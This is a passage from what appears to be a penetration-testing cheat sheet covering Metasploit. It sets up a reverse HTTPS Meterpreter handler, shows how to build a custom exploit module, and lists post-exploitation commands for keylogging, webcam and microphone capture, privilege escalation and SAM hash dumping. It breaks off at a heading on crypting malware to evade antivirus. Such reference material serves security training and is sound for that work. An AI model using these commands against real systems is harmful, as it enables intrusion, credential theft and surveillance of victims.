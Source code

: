         `shell`

    -   Exit the meterpreter shell  
    
        `exit`

-   Metasploit Exploit Multi Handler

    -   multi/handler to accept an incoming reverse\_https\_meterpreter
    
        ```
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        [*] Started HTTPS reverse handler on https://$ip:443/
        ```

-   Building Your Own MSF Module

    -   
        ```bash
        mkdir -p ~/.msf4/modules/exploits/linux/misc  
        cd ~/.msf4/modules/exploits/linux/misc  
        cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld\_postfix.rb ./crossfire.rb  
        nano crossfire.rb
        ```


-   Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)

    -   `download` Download a file or directory  
        `upload` Upload a file or directory  
        `portfwd` Forward a local port to a remote service  
        `route` View and modify the routing table  
        `keyscan_start` Start capturing keystrokes  
        `keyscan_stop` Stop capturing keystrokes  
        `screenshot` Grab a screenshot of the interactive desktop  
        `record_mic` Record audio from the default microphone for X seconds  
        `webcam_snap` Take a snapshot from the specified webcam  
        `getsystem` Attempt to elevate your privilege to that of local system.  
        `hashdump` Dumps the contents of the SAM database

-   Meterpreter Post Exploitation Features

    -   Create a Meterpreter background session  
    
        `background`

Bypassing Antivirus Software 
===========================================================================================================================

-   Crypting Known Malware with Software Protectors
